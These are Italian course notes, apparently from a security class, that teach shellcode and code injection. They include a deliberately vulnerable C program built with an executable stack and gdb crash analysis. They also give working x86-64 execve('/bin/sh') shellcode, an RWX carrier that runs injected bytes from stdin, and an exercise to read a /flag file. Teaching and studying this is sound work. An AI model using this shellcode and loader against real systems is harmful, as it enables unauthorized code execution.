

<style>
    strong{
        background-color:#faf43e;
        color: black;
        padding:0.1rem 0.2rem;
        border-radius:5px;
    }
</style>

## Materiale
* [Writing 64-Bit Shellcode](https://null-byte.wonderhowto.com/how-to/writing-64-bit-shellcode-part-1-beginner-assembly-0161593/)

# Shellcode
Shellcode è un pezzo di codice che ha caratteristiche particolari, tra cui il dover essere scritto in linguaggio macchina che viene usato per sfruttare le vulnerabilità all'interno di un codice attraverso attacco di tipo **injection**. Lo shell code, tipicamente viene iniettato all'interno di un processo in esecuzione e magicamente questo lo esegue.

Lo shell code contiene codificato in linguaggio macchina le azioni che l'attaccante vuole eseguire sulla macchina.

## Code Injection
Attacco di base è di tipo **Code Injection** (iniettare codice), prima mandarlo in esecuzione, il codice viene messo all'interno della memoria. La `code injection` è possibile su questi calcolatori grazie al fatto che essi si basano sull'architettura di **John Von Neumann**. **Il principio fondamentale di questa architettura è che i dati e il codice condividono lo stesso spazio di memoria**, infatti iniezione di codice avviene **sfruttando istruzioni di I/O**, quindi dati che vengono messi in memoria occupano lo stesso spazio di memoria. 


> **L'architettura di Harvard** invece data memory e program memory occupano spazi di memoria completamente diversi (alcune architetture ARM la implementa). Quindi, su questa architettura non è possibile fare attacchi di tipo Code Injection.



### Codice Vulnerabile
Per eseguire questo attacco boisogna prima individuare un pezzo di codice vulnerabile ovvero un **security bug**, è una vulnerabilità che ci permette di **bypassare/scavalcare meccanismo di protezione** di un sistema, quindi, guadagnare un accesso non autorizzato al sistema.

```c
void bye1(){ puts("Goodbye!\n"); }

void bye2(){ puts("Farewell!\n"); }

void hello(char *name, void (*bye_func)()){
    printf("Hello %s!\n", name);
    bye_func();
}

int main(int argc, char **argv){
    char name[1024];
    gets(name);
    srand(time(0));
    if(rand() % 2) hello(bye1, name);
    else hello(name, bye2);
}
```
compila con:
```sh
gcc -z execstack -g -o myFirstInjection myFirstIngection.c
```

>Questo codice a volte dà segmentation fault! (la parte di else).

### Layout di memoria di un processo linux in 64bit


* Da 2<sup>48</sup> in su è la zona di memoria riservata al Kernel.
* Il processo ha a disposizione gli indirizzi da 0x400000 fino a 2<sup>48</sup> -1.
  
  * il codice .data,  etc...

Eseguiamo il programma in gdb finché non crasha con signal Segmentation Fault `SIGSEGV` oppure IllegalInstruction.


~~~sh
# trovre regione di memoria dove il programma ha fallito
x/s $rip # register instruction pointer / program counter
print $rip # address: 0x7fffffffda80

info proc map # mostra la memoria attuale
~~~
In questo momento il `program counter $rip` contiene l'indirizzo (di stack) dell'istruzione che sta provando ad eseguire (`0x7fffffffda80`). 

Processore stava eseguendo l'istruzione $rip quando è avvenuto il fault.

Usando GDB andiamo a vedere cosa contiene quell'indirizzo di memoria: alcuni hanno avuto `(bad)` significa un istruzione sconosciuto ed alcuni hanno trovato un istruzione di `add`.

`x/s $rip` gdb dice qualè il contenuto di quell'indirizzo di memoria. 

Il program counter ad un certo punto è stato posizionato sulla stringa data, quando si chiama hello con bye2 con argomenti invertiti, il programma cerca di eseguire input dell'utente come fosse una funzione (perché si aspetta una funzione/un puntatore a funzione).

La vulnerabilità è che il programmatore ha scambiato l'ordine dei parametri della funzione.

Il fault è stato creato perché il cpu cerca di interpretare il contenuto di quella locazione memoria come un istruzione, che potrebbe essere un istruzione riconosciuto cosi come uno sconosciuto oppure un istruzione che cerca di accedere ad un indirizzo di memoria assurdo (crea un segmentation fault).


in questo caso l'input `546tragybfzdcx` è stato interpretato come un istruzione di tipo `xor`.

Un codice universale che permette di fare tutto sulla macchina è eseguire una shell da quel programma, da questo viene il nome `ShellCode`. 

Code injection è la vulnerabilità utilizzato da Morris nel 1988 con Internet Worm. 

### Shell Code per eseguire una shell

```s
.intel_syntax noprefix
.global _start 
.section .text
_start:
mov rax, 59
lea rdi, [rip + binsh]
mov rsi, 0
mov rdx, 0
syscall
binsh:
.string "/bin/sh"
```
(non mettere .section .data)

Verificare che il codice assembly compilato sia come segue:

```s
mov rax, 0x3b
lea rdi, [rip+0x1c]
mov rsi,0x0
mov rdx,0x0
syscall
00... <binsh>:
(bad)
(bad)
.byte 0x69
outs dx,BYTE PTR ds:[rsi]
(bad)
jae 4
```
`gcc -nostdlib -static -o shellcode shellcode.s`

Si estrae la sezione .text dal file ELF con il comando `objcopy --dump-section .text=RawFile executable`.

### Shell Carrier

prima di testarlo bisogna iniettarlo per questo si usa un programma che si chiama `Carrier` perché non può essere eseguito da solo.

```c
#include<sys/mman.h>
#include<unistd.h>
int main(void){
    void *page = mmap(0x1337000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON, 0, 0); // riserva 1000 byte in cui disabilita tutte le protezioni
    read(0, page, 0x1000); //legge da stdin fino a 1000 byte in questa zona (o al primo EOF)
    ((void(*)())page)(); //manda in esecuzione 
    return 0;
}
```
questo programma:
* `mmap()`: riserva una zona di memoria di `1000 byte` che disabilità tutte le protezioni.
* `read()`: legge da stdin fino a `1000 byte` (fino al primo EOF)
* manda in esecuzione il programma che stato scritto in variabile `page` (zona memoria riservato con `mmap()`)

### Attacco

    cat rawfile - | ./carrier

* rawfile è il file ottenuto con `objcopy --dump-section .text=rawfile shcode`.

    `cat rawfile | ./carrier` # non funziona perché la pipe chiude lo stdin e quando la shell (sh) inizia trova stdin chiuso quindi termina, bisogna usare `cat rawfile - | ./carrier`.

## Esercizio
Creare un file `/flag` nella root, scrivere del codice che accede al suo contenuto e lo stampa.

Scrivere un programma in C estrarre da file compilato assembly il shellcode.

system call da usare: (open, sendfile, exit).

La shell appare all'utente, non all'attaccante, bisogna poi redirigere la shell. (remote shell). Il codice è un pochino piu complicato.